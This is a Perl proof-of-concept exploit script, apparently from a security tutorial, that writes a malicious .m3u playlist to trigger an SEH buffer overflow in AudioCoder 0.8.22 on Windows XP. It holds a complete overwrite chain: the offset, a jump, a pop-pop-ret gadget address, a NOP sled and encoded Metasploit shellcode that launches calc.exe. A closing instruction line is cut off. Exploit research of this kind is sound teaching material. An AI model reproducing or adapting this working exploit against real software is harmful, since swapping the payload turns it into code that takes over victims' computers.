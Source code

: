 

\###############################################################################
\# Exploit Title: AudioCoder 0.8.22 (.m3u) – SEH Buffer Overflow
\# Date: 10-18-2013
\# Exploit Author: Mike Czumak (T_v3rn1x) — @SecuritySift
\# Vulnerable Software: AudioCoder 0.8.22 (http://www.mediacoderhq.com/audio/)
\# Software Link: http://www.fosshub.com/download/AudioCoder-0.8.22.5506.exe
\# Version: 0.8.22.5506
\# Tested On: Windows XP SP3
\# Creates an .m3u file to exploit basic seh bof
\###############################################################################

my $buffsize = 5000; # sets buffer size for consistent sized payload
my $junk = “http://” . (“\x90” x 757); # offset to seh overwrite
my $nseh = “\xeb\x14\x90\x90”; # overwrite next seh with jmp instruction (20 bytes)
my $seh = pack(‘V’,0x6601228e); #overwrite seh w/ pop edi pop ebp ret from AudioCoder\libiconv-2.dll
my $nops = “\x90” x 20;

\# Calc.exe payload [size 227]
\# msfpayload windows/exec CMD=calc.exe R |
\# msfencode -e x86/shikata_ga_nai -c 1 -b ‘\x00\x0a\x0d\xff’
my $shell = “\xdb\xcf\xb8\x27\x17\x16\x1f\xd9\x74\x24\xf4\x5f\x2b\xc9” .
“\xb1\x33\x31\x47\x17\x83\xef\xfc\x03\x60\x04\xf4\xea\x92” .
“\xc2\x71\x14\x6a\x13\xe2\x9c\x8f\x22\x30\xfa\xc4\x17\x84” .
“\x88\x88\x9b\x6f\xdc\x38\x2f\x1d\xc9\x4f\x98\xa8\x2f\x7e” .
“\x19\x1d\xf0\x2c\xd9\x3f\x8c\x2e\x0e\xe0\xad\xe1\x43\xe1” .
“\xea\x1f\xab\xb3\xa3\x54\x1e\x24\xc7\x28\xa3\x45\x07\x27” .
“\x9b\x3d\x22\xf7\x68\xf4\x2d\x27\xc0\x83\x66\xdf\x6a\xcb” .
“\x56\xde\xbf\x0f\xaa\xa9\xb4\xe4\x58\x28\x1d\x35\xa0\x1b” .
“\x61\x9a\x9f\x94\x6c\xe2\xd8\x12\x8f\x91\x12\x61\x32\xa2” .
“\xe0\x18\xe8\x27\xf5\xba\x7b\x9f\xdd\x3b\xaf\x46\x95\x37” .
“\x04\x0c\xf1\x5b\x9b\xc1\x89\x67\x10\xe4\x5d\xee\x62\xc3” .
“\x79\xab\x31\x6a\xdb\x11\x97\x93\x3b\xfd\x48\x36\x37\xef” .
“\x9d\x40\x1a\x65\x63\xc0\x20\xc0\x63\xda\x2a\x62\x0c\xeb” .
“\xa1\xed\x4b\xf4\x63\x4a\xa3\xbe\x2e\xfa\x2c\x67\xbb\xbf” .
“\x30\x98\x11\x83\x4c\x1b\x90\x7b\xab\x03\xd1\x7e\xf7\x83” .
“\x09\xf2\x68\x66\x2e\xa1\x89\xa3\x4d\x24\x1a\x2f\xbc\xc3” .
“\x9a\xca\xc0”;

my $sploit = $junk.$nseh.$seh.$nops.$shell; # build sploit portion of buffer
my $fill = “\x43” x ($buffsize – (length($sploit))); # fill remainder of buffer
my $buffer = $sploit.$fill; # final buffer

\# write the exploit buffer to file
my $file = “audiocoder.m3u”;
open(FILE, “>$file”);
print FILE $buffer;
close(FILE);
print “Exploit file created [” . $file . “]\n”;
print “Buffer size: ” . length($buffer) . “\n”;

Open the resulting m3u file in AudioCoder (without a debugger) and you should see:
